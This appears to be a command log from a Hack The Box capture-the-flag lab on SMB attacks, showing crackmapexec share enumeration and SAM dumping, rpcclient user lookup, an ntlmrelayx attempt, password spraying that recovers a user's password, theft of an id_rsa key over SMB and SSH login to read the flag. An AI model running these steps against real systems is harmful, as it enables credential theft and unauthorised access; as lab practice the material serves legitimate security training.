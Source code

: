 crackmapexec smb $TARGET --shares -u 'Administrator' -p 'liverpool'

smbclient -U Administrator \\\\$TARGET\\GGJ

Password for [WORKGROUP\Administrator]: liverpool
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 19 22:33:55 2022
  ..                                  D        0  Mon Apr 18 18:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 22:33:04 2022

rpcclient $> queryuser 0x3e8

	User Name   :	jason
	Full Name   :	
	Home Drive  :	\\ATTCSVC-LINUX\jason
	Dir Drive   :	
	Profile Path:	\\ATTCSVC-LINUX\jason\profile
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 BST
	Logoff Time              :	Wed, 06 Feb 2036 15:06:39 GMT
	Kickoff Time             :	Wed, 06 Feb 2036 15:06:39 GMT
	Password last set Time   :	Mon, 18 Apr 2022 18:20:21 BST
	Password can change Time :	Mon, 18 Apr 2022 18:20:21 BST
	Password must change Time:	Thu, 14 Sep 30828 03:48:05 BST
	unknown_2[0..31]...
	user_rid :	0x3e8
	group_rid:	0x201
	acb_info :	0x00000010
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...

crackmapexec smb $TARGET -u administrator -p 'liverpool' --sam

./enum4linux-ng.py $TARGET -A -C

impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET

TypeError: setLDAPOptions() missing 1 required positional argument: 'sid'

crackmapexec smb $TARGET -u jason -p password.list --shares

crackmapexec smb $TARGET -u jason -p password.list --local-auth

SMB         10.129.36.156   445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh 

34c8zuNBo91!@28Bszh

smbclient -U jason \\\\$TARGET\\GGJ
34c8zuNBo91!@28Bszh

get id_rsa
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET
cat flag.txt	
HTB{SMB_4TT4CKS_2349872359}